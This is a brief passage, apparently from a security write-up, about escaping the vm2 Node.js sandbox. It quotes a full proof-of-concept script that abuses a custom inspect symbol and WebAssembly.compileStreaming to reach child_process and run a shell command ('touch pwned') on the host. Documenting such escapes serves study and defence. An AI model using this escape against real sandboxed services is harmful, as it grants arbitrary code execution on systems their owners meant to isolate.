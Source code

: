 When viewing these articles on sandbox escapes, we can find several with proof-of-concept links attached. 

Choosing the first one, I find [this POC script](https://gist.github.com/leesh3288/e4aa7b90417b0b0ac7bcd5b09ac7d3bd):

```js
const {VM} = require("vm2");
const vm = new VM();

const code = `
const customInspectSymbol = Symbol.for('nodejs.util.inspect.custom');

obj = {
    [customInspectSymbol]: (depth, opt, inspect) => {
        inspect.constructor('return process')().mainModule.require('child_process').execSync('touch pwned');
    },
    valueOf: undefined,
    constructor: undefined,
}

WebAssembly.compileStreaming(obj).catch(()=>{});
`;

vm.run(code);
```

When I run the script, Promise is shown, suggesting the script is likely working.

![](Images/touch.png)
